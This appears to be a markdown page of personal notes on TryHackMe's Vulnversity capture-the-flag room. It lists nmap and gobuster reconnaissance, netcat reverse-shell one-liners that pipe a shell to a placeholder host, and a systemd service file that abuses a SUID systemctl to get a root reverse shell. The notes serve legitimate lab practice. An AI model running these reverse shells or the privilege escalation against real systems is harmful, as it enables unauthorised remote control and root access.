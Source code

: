 ```yaml
---
layout: md
title: TryHackMe Vulnversity CTF
description: Notes on tryhackme.com's vulnversity challenge
tags: ['security', 'tryhackme']
sort_key: 1
---
```


{% include project-headers.html %}

Use nmap to scan ports and try to find details about services and versions on those ports 
```bash
nmap -sV -sC <target>
```

Try bruteforce webpages/directories using [gobuster](https://github.com/OJ/gobuster)
```bash
gobuster dir -u <webapp> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

#### Netcat commands
```
nc -lvnp 4444 [> /path/to/file.ext]
nc -e /bin/bash <ip> <port>

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

Exploiting systemctl (SUID bit was set), reverse shell using netcat openbsd from systemctl service.
```bash
[Unit]
Description=root-shell

[Service]
ExecStart=/bin/bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f"

[Install]
WantedBy=multi-user.target
```
```bash
/bin/systemctl enable /path/to/root-shell.service
/bin/systemctl start root-shell
```

[PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
